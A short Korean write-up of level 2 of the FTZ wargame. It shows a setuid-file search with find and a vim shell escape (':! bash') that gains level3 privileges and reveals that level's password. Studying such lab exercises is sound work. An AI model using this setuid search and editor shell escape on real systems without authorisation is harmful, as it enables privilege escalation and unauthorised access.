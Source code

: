 ```yaml
---
title: FTZ 2번 Write-up
date: 2017-8-20 23:32:00
categories: FTZ
---
```


## FTZ 2번

    login as: level2
    level2@192.168.42.134's password:
    [level2@ftz level2]$ ls
    hint  public_html  tmp
    [level2@ftz level2]$ cat hint
    
    
    텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...

역시나 만들어 주었다.

    [level2@ftz level2]$ find / -user level3 -perm +4000 2>/dev/null
    /usr/bin/editor

vim 에디터의 기능 중 쉘을 실행시키는 명령이 있다.
"Esc" 후 ":!" 을 입력해주면 된다.

    [level3@ftz level2]$ /usr/bin/editor
    ~
    ~
    ~
    ~
    ~
    ~                              VIM - Vi IMproved
    ~
    ~                               version 6.1.320
    ~                           by Bram Moolenaar et al.
    ~                 Vim is open source and freely distributable
    ~
    ~                        Help poor children in Uganda!
    ~                type  :help iccf<Enter>       for information
    ~
    ~                type  :q<Enter>               to exit
    ~                type  :help<Enter>  or  <F1>  for on-line help
    ~                type  :help version6<Enter>   for version info
    ~
    ~
    ~
    ~
    ~
    :! bash
    [level3@ftz level2]$ my-pass
    
    Level3 Password is "can you fly?".

뚫었다.